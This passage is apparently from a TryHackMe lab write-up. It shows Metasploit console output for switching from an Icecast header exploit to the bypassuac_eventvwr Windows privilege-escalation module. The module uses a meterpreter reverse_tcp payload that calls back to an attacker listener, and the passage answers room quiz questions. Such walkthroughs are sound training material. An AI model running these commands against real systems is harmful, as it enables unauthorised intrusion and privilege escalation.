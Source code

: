 <br>

<pre><code>meterpreter > msf6 exploit(windows/http/icecast_header) > use exploit/windows/local/bypassuac_eventvwr
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
msf6 exploit(windows/local/bypassuac_eventvwr) > 
</code></pre>

<br>

> 4.9. <em>Local exploits require a session to be selected (something we can verify with the command `show options`), set this now using the command `set session SESSION_NUMBER`.</em><br><a id='4.9'></a>
>> <code><strong>No answer needed</strong></code>

<br>

<pre><code>msf6 exploit(windows/local/bypassuac_eventvwr) > show options

Module options (exploit/windows/local/bypassuac_eventvwr):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SESSION                   yes       The session to run this module on


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     [THM AttackBox IP]    yes       The listen address (an interface may be specified)
   LPORT     [THM AttackBox Port]              yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Windows x86



View the full module info with the info, or info -d command.

msf6 exploit(windows/local/bypassuac_eventvwr) > 
</code></pre>


<br>

> 4.10. <em>Now that we've set our session number, further options will be revealed in the options menu. We'll have to set one more as our listener IP isn't correct. What is the name of this option?</em><br><a id='4.10'></a>
>> <code><strong>LHOST</strong></code>

<br>

<p align="center"> <img width="800px" src="https://github.com/user-attachments/assets/01be97a2-9236-4cf8-8aa8-caca8bf0309e"> </p>

<br>
